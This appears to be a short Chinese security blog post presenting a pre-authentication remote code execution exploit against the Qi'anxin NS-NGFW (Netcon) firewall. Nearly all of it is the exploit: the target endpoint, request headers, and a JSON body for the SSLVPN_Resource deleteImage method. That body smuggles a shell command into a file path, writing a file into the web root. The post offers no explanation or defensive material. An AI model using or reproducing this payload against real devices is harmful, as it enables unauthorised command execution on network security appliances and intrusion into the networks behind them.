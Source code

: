 ```yaml
---
layout: post
title: "奇安信NS-NGFW 网康防火墙 前台RCE"
subtitle: 'RCE'
author: "hackeyes"
header-style: text
tags:
  - 网络攻防
---
```



访问地址
http://X.X.X.X/directdata/direct/router
请求头(requestHeader)
Host: X.X.X.X
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Length: 155
Content-Type: application/json
X-Requested-With: XMLHttpRequest
Accept-Encoding: gzip
请求Body(requestBody)
{
   "action": "SSLVPN_Resource",
   "method": "deleteImage",
   "data": [{
       "data": ["/var/www/html/d.txt;echo '5b926437'>/var/www/html/5b926.txt"]
   }],
   "type": "rpc",
   "tid": 17
}